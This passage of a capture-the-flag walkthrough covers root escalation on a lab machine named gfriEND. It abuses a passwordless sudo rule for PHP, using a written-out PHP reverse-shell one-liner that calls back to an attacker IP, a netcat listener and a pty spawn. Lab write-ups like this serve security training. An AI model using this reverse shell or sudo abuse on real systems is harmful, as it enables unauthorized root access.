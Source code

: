 Privilege Escalation
--------------------

### Enumeration (sudo -l)

```
alice@gfriEND:~/.my_secret$ sudo -l
Matching Defaults entries for alice on gfriEND:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on gfriEND:
    (root) NOPASSWD: /usr/bin/php

Looks like PHP can be executed as root, which means reverse shell can be executed as root.
```

Looks like PHP can be executed as root, which means reverse shell can be
executed as root.

### Escalation (php)

PHP can be used to spawn a reverse shell as per below.

#### Victim machine.

```alice@gfriEND:~$ sudo /usr/bin/php -r '$sock=fsockopen("192.168.211.146",443);exec("/bin/sh -i <&3 >&3 2>&3");'```

#### Attacker machine.

```
lifesfun:~# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.211.146] from (UNKNOWN) [192.168.211.148] 48892
# python -c "import pty;pty.spawn('/bin/bash')"
```

### Root Flag

```
root@gfriEND:~# cd /root
cd /root
root@gfriEND:/root# ls
ls
flag2.txt
root@gfriEND:/root# cat flag2.txt
cat flag2.txt

  ________        __    ___________.__             ___________.__                ._.
 /  _____/  _____/  |_  \__    ___/|  |__   ____   \_   _____/|  | _____     ____| |
/   \  ___ /  _ \   __\   |    |   |  |  \_/ __ \   |    __)  |  | \__  \   / ___\ |
\    \_\  (  <_> )  |     |    |   |   Y  \  ___/   |     \   |  |__/ __ \_/ /_/  >|
 \______  /\____/|__|     |____|   |___|  /\___  >  \___  /   |____(____  /\___  /__
        \/                              \/     \/       \/              \//_____/ \/
